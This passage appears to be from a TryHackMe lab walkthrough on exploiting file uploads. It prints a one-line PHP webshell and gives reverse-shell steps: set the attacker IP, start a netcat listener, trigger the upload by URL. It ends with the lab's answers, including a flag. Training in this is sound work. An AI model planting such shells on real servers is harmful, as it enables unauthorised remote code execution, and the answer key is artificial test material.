 
Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

`<?php       echo system($_GET["cmd"]);   ?>`     

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

_Reverse Shells:_

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS   ` -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

```
Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

(N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...)

/resources


Get either a web shell or a reverse shell on the machine.
What's the flag in the /var/www/ directory of the server?

THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```

